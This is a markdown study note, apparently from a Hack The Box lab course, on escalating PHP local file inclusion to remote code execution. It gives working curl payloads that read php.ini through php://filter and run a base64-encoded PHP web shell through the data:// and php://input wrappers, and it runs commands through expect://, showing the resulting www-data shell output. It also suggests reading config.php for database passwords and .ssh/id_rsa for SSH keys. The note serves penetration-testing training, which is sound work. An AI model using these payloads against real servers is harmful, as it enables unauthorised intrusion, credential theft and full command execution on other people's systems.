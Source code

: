 ```yaml
---
title: a-PHP Wrappers
draft: false
tags:
  - lfi
---
```

We may find the database password in a file like `config.php`.

We may check on `.ssh` directory and read `id_rsa` file to ssh-in to the system.

There are ways to achieve remote code execution directly through the vulnerable function without relying on data enumeration or local file privileges.

## Data

If `allow_url_include` setting is enabled on PHP, we can use data wrapper to include external data such as PHP code.

Let's check whether this is enabled by reading PHP config file.

## Check PHP Config

Where can we find PHP configuration file?

- On Apache - `/etc/php/X.Y/apache2/php.ini`
- On Nginx - `/etc/php/X.Y/fpm/php.ini`

Let's use `conver.base64-encode` filter along with cURL to read the config:

```shell-session
jadu101@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

Luckily, `allow_url_include` is enabled:

```shell-session
jadu101@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Since this option is enabled, we can use the data wrapper.

## RCE

We will first base64 encode base PHP web shell:

```shell-session
jadu101@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

```shell-session
jadu101@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code.

For `input` wrapper, we have to pass our input as a POST request's data. So the vulnerable parameter must accept POST request for this attack to work.

Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

```shell-session
jadu101@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Expect

Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server.

Let's check whether it is installed by searching for keyword expect from the PHP config file:

```shell-session
jadu101@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:

```shell-session
jadu101@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```